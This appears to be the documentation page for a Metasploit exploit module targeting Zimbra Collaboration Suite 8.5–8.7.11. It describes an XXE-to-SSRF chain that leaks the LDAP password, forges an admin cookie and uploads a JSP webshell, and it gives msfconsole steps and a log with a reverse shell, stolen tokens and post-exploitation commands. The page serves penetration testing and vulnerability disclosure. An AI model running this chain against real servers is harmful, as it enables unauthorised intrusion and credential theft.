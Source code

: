 ## Description

This module exploits an XML external entity vulnerability and a server side request forgery to get unauthenticated code execution on Zimbra Collaboration Suite. The XML external entity vulnerability in the Autodiscover Servlet is used to read a Zimbra configuration file that contains an LDAP password for the 'zimbra' account. The zimbra credentials are then used to get a user authentication cookie with an AuthRequest message. Using the user cookie, a server side request forgery in the Proxy Servlet is used to proxy an AuthRequest with the 'zimbra' credentials to the admin port to retrieve an admin cookie. After gaining an admin cookie the ClientUploader is used to upload a JSP webshell that can be triggered from the web server to get command execution on the host. The issues reportedly affect Zimbra Collaboration Suite v8.5 to v8.7.11. This module was tested with Zimbra Release 8.7.1.GA.1670.UBUNTU16.64 UBUNTU16_64 FOSS edition.

## Vulnerable Application

Zimbra Collaboration Suite v8.5 to v8.7.11.

[Zimbra 8.7.1 GA FOSS Edition](https://files.zimbra.com/downloads/8.7.1_GA/zcs-8.7.1_GA_1670.UBUNTU16_64.20161025045114.tgz)

[Installation](https://zimbra.github.io/installguides/latest/single.html#Installing_Zimbra_Collaboration_Software)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/linux/http/zimbra_xxe_rce`
3. `set rhosts <rhost>`
4. `set lhost <lhost>`
5. `exploit`

## Scenarios

### Zimbra 8.7.1 GA 1670 FOSS edition Tested on Ubuntu 16.04.6 LTS

```
msf exploit(linux/http/zimbra_xxe_rce) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Using URL: http://0.0.0.0:8080/2tQ75DxRvaeGRSP
[*] Local IP: http://192.168.171.150:8080/2tQ75DxRvaeGRSP
[*] Server started.
[+] Password found: Syz7fOPJI
[+] User cookie retrieved: ZM_AUTH_TOKEN=0_c6df3ed73afbefd7eff40eb9f6999794ebf764b5_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343239343539303239353b747970653d363a7a696d6272613b753d313a613b7469643d393a3538303338373138373b;
[+] Admin cookie retrieved: ZM_ADMIN_AUTH_TOKEN=0_c1c8a6c715eb8f55c14aa63e82a8ff64e4fbe279_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343136343939303333353b61646d696e3d313a313b747970653d363a7a696d6272613b753d313a613b7469643d383a36303437383736333b;
[*] Uploading jsp shell
[*] Executing payload on /downloads/XFlHBolHjLB.jsp
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.111:53746) at 2019-04-01 07:29:51 -0500
[*] Server stopped.

whoami
zimbra
uname -a
Linux zimbra.mylocaldomain.local 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
../bin/zmcontrol -v
Release 8.7.1.GA.1670.UBUNTU16.64 UBUNTU16_64 FOSS edition.
exit
[*] 172.22.222.111 - Command shell session 1 closed.
```
